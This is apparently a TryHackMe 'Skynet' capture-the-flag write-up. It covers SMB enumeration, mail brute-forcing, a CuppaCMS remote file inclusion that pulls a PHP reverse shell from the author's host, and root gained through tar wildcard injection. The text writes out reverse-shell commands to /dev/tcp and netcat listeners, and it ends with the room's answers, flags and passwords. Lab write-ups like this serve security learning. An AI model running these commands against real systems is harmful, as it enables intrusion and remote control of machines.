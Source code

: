 ```yaml
---
title: Skynet
date: 2022-09-03 09:45:47 +07:00
modified: 2022-08-02 09:45:47 +07:00
tags: [Skynet, TryHackMe, Writeup, OSCP]
description: Write Up for TryHackMe room Skynet
---
```


# Skynet

![](https://photos.squarezero.dev/file/abir-images/Skynet/logo.jpeg)

Room Name → **Skynet**

Room Link → [https://tryhackme.com/room/skynet](https://tryhackme.com/room/skynet)

Author →[TryHackMe](https://tryhackme.com/p/tryhackme)

Description → A vulnerable Terminator themed Linux machine.

## **Recon**

I start with port scanning and service detection with [AutoRecon]().

Following ports  were found

|Ports|Service
|22| TCP (OpenSSH 7.2p2)
|80| HTTP (Apache httpd 2.4.18)
|110| POP3 (Dovecot pop3d)
|139|Samba (smbd 3.x - 4.x)
|143|imap (Dovecot imapd)
|445|Samba (smbd 4.3.11-Ubuntu)

![](https://photos.squarezero.dev/file/abir-images/Skynet/1.png)

Next, I start enumerating websites using [Feroxbuster]()

`feroxbuster -u http://10.10.244.66/ -r`

![](https://photos.squarezero.dev/file/abir-images/Skynet/2.png)

I found a login page [Squirrelmail]

`http://10.10.244.66/squirrelmail/src/login.php`

![](https://photos.squarezero.dev/file/abir-images/Skynet/3.png)

Then I enumerate SMB with [SMBMAP]()

`smbmap -H 10.10.244.66`

![](https://photos.squarezero.dev/file/abir-images/Skynet/4.png)

## **Exploit**

First I decided to check out SMB to see if it has something useful.
Only “anonymous” had an anonymous share. so I checked it out.

![](https://photos.squarezero.dev/file/abir-images/Skynet/5.png)

Inside I found a “attention.txt” and a log folder containing 3 text files.

![](https://photos.squarezero.dev/file/abir-images/Skynet/6.png)

![](https://photos.squarezero.dev/file/abir-images/Skynet/7.png)

The password for SMB has been reset. Also in the log1.txt I found potential passwords.

 ![](https://photos.squarezero.dev/file/abir-images/Skynet/8.png)

I decided to brute-force mail login page using username → “milesdyson” and log1.txt as passwords. 

![](https://photos.squarezero.dev/file/abir-images/Skynet/9.png)

I logged in with “cyborg007haloterminator” and inside I found out the new password → `)s{A&2Z=F^n_E.B``

![](https://photos.squarezero.dev/file/abir-images/Skynet/10.png)

I logged in to SMB using the new password.  

![](https://photos.squarezero.dev/file/abir-images/Skynet/11.png)

I found important.txt.

![](https://photos.squarezero.dev/file/abir-images/Skynet/12.png)

The note mentions a hidden directory `/45kra24zxs28v3yd`

![](https://photos.squarezero.dev/file/abir-images/Skynet/13.png)

## **More E**numeration

I check out the source code of the page but didn’t find anything interesting. 

Also, I checked out the picture to see if there was any useful metadata. Still nothing interesting.

Next, I decided to find hidden directories. 
`feroxbuster -u http://10.10.244.66/45kra24zxs28v3yd -r`

![](https://photos.squarezero.dev/file/abir-images/Skynet/14.png)

I found another login page → `http://10.10.244.66/45kra24zxs28v3yd/administrator/`

![](https://photos.squarezero.dev/file/abir-images/Skynet/15.png)

## **More Exploitation**

After looking for a little bit I found an exploit for CuppaCMS in [exploit-DB](https://www.exploit-db.com/exploits/25971)

![](https://photos.squarezero.dev/file/abir-images/Skynet/16.png)

It is a local File Inclusion exploit where I can run my reverse shell. 

I download a PHP reverse shell from [Pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell) and changed the host and port number.

![](https://photos.squarezero.dev/file/abir-images/Skynet/17.png)

Then I opened a python server and start a Netcat listening.

`python3 -m http.server 80`

`nc -lnvp 4444`

I executed LFI and got a shell

`10.10.244.66/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.13.19.204:80/shell.php`

![](https://photos.squarezero.dev/file/abir-images/Skynet/18.png)

I got the user flag

![](https://photos.squarezero.dev/file/abir-images/Skynet/19.png)

## **Privilege Escalation**

Time to get the root flag. I start by making the shell stable using python

`python3 -c 'import pty;pty.spawn("/bin/bash")'`

`export TERM=xterm`

![](https://photos.squarezero.dev/file/abir-images/Skynet/20.png)

I run Linpeas to find possible vulnerabilities to get the root.

![](https://photos.squarezero.dev/file/abir-images/Skynet/21.png)

After looking for sometimes I found a cronjob that runs as root every min

![](https://photos.squarezero.dev/file/abir-images/Skynet/22.png)

Upon checking the code I found the following

```bash
#!/bin/bash
cd /var/www/html
tar cf /home/milesdyson/backups/backup.tgz *
```

I found this article exploiting tar wildcards → [TarWildcard](https://www.hackingarticles.in/exploiting-wildcard-for-privilege-escalation/)

Tar has two options 

**–checkpoint[=NUMBER]** show progress messages for every Numbers record (default 10)

**–checkpoint-action=ACTION** execute ACTION on each checkpoint

This will help get access to root

```bash
I used the following commands
printf '#!/bin/bash\nbash -i >& /dev/tcp/10.13.19.204/4445 0>&1' > /var/www/html/shell
$ chmod +x /var/www/html/shell
$ touch /var/www/html/--checkpoint=1
$ touch /var/www/html/--checkpoint-action=exec=bash\ shell
```

Then I started a Netcat session and wait for the cronjob to work. 

Now I am Root

![](https://photos.squarezero.dev/file/abir-images/Skynet/23.png)

I got the root flag! 

![](https://photos.squarezero.dev/file/abir-images/Skynet/24.png)


***Q1. What is Miles password for his emails?***

***A. cyborg007haloterminator***

***Q2. What is the hidden directory?***

***A. /45kra24zxs28v3yd***

***Q3. What is the vulnerability called when you can include a remote file for malicious purposes?***

***A. remote file inclusion***

***Q4. What is the user flag?***

***A. 7ce5c2109a40f958099283600a9ae807***

***Q5. What is the root flag?***

***A. 3f0372db24753accc7179a282cd6a949***